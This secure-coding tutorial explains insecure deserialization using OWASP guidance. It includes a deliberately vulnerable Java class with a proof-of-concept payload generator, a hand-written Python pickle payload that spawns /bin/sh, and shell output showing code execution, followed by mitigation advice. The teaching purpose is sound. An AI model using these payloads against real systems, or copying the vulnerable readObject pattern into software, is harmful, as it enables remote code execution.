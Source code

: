 ```yaml
---
title: Secure Coding Practice - Insecure Deserialization
date: 2020-12-15 05:49:13
categories: SCP
tags: [Deserialization, SCP]
keywords: [Deserialization, SCP]
description: This series is about secure coding during development. The OWASP TOP 10 is our guide to define vulnerability type. For this part, it will focus on the vulnerable points and the mitigation of insecure deserialization problems.
---
```

## Overview
Insecure deserialization often leads to remote code execution. Even if deserialization flaws do not result in remote code execution, they can be used to perform attacks, including replay attacks, injection attacks, and privilege escalation attacks.

## Common vulnerable coding example
Here listed some risky points for different languages

### Java
Assume we have written a vulnerable program like:
```Java
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.time.LocalDateTime;
import java.io.FileInputStream;
 
public class VulnerableTaskHolder implements Serializable {
 
        private static final long serialVersionUID = 1;
 
        public static void main(String args[]) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("payload.bin"));
        MyObject read = (MyObject)ois.readObject();
        System.out.println(read.command);
        ois.close();
        }
}
 
class MyObject implements Serializable{
        public String command;
        private void readObject( ObjectInputStream stream ) throws Exception {
                stream.defaultReadObject();
 
                Runtime run = Runtime.getRuntime();
                Process pr = run.exec(command);
                pr.waitFor();
                BufferedReader buf = new BufferedReader(new InputStreamReader(pr.getInputStream()));
                String line = "";
                while ((line=buf.readLine())!=null) {
                System.out.println(line);
        }
    }
}
```
This program deserializes the input bytes file and executes the command. So it's possible to write the exploit poc to generate the target payload.
```Java
import java.io.ObjectOutputStream;
import java.io.ByteArrayOutputStream;
import java.io.FileOutputStream;
 
public class VulAttack{
    public static void main(String args[]) throws Exception{
        MyObject myObj = new MyObject();
        myObj.command = "id";
        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("payload.bin"));
        os.writeObject(myObj);
        os.close();
    }
}
```
Compile and run this poc, the payload will be generated.
```Shell
root@tester code/java » javac VulAttack.java
root@tester code/java » java VulAttack
root@tester code/java » xxd payload.bin
00000000: aced 0005 7372 0008 4d79 4f62 6a65 6374  ....sr..MyObject
00000010: fcde 3964 7a67 2c87 0200 014c 0007 636f  ..9dzg,....L..co
00000020: 6d6d 616e 6474 0012 4c6a 6176 612f 6c61  mmandt..Ljava/la
00000030: 6e67 2f53 7472 696e 673b 7870 7400 0269  ng/String;xpt..i
00000040: 64                                       d
```
Now compile and run the previous vulnerable program, it will lead to RCE.
```Shell
root@tester code/java » javac VulnerableTaskHolder.java
root@tester code/java » java VulnerableTaskHolder
uid=1000(root) gid=1000(root) groups=1000(root)
```
### Python
Imagine the following code:
```Python
import pickle
 
def serialization(obj, filename):
    filename = open(filename, "wb")
    pickle.dump(obj, filename)
 
def deserialization(filename):
    filename = open(filename, "rb")
    return pickle.load(filename)
 
a = "Hello world!"
 
serialization(a, 'file1')
 
print(deserialization('file1'))
```
The first serialization is to write object to file and another deserialization is to convert bytes in file to object and return it. The result will be:
```Shell
root@tester code/python » python3 serialize.py
Hello world!
```
Let's take a look at the generated bytes file:
```Shell
root@tester code/python » xxd file1
00000000: 8003 580c 0000 0048 656c 6c6f 2077 6f72  ..X....Hello wor
00000010: 6c64 2171 002e                           ld!q..
```
If the deserialized data is untrusted and can be changed to malicious data, it will lead to RCE. By comment serialization function and change file1 content to malicious data:
```Ini
cos
system
(S'/bin/sh'
tR.
```
It will run bash shell after running script to deserialize it, you will see bash shell open.
```Shell
root@tester code/python » python3 serrialize.py
$ id      
uid=1000(root) gid=1000(root) groups=1000(root)
```

## Mitigation
The best way to protect your web application from this type of risk is not to accept serialized objects from untrusted sources. If you can’t do this, there are some technical recommendations that you can try to implement:

* Implementing integrity checks such as digital signatures on any serialized objects to prevent hostile object creation or data tampering.
* Enforcing strict type constraints during deserialization before object creation as the code typically expects a definable set of classes. Bypasses to this technique have been demonstrated, so reliance solely on this is not advisable.
* Isolating and running code that deserializes in low privilege environments when possible.
* Logging deserialization exceptions and failures, such as where the incoming type is not the expected type, or the deserialization throws exceptions.
* Restricting or monitoring incoming and outgoing network connectivity from containers or servers that deserialize.
* Monitoring deserialization, alerting if a user deserializes constantly.

## Reference
https://owasp.org/www-project-top-ten/2017/Top_10.html

https://sucuri.net/guides/owasp-top-10-security-vulnerabilities-2020/
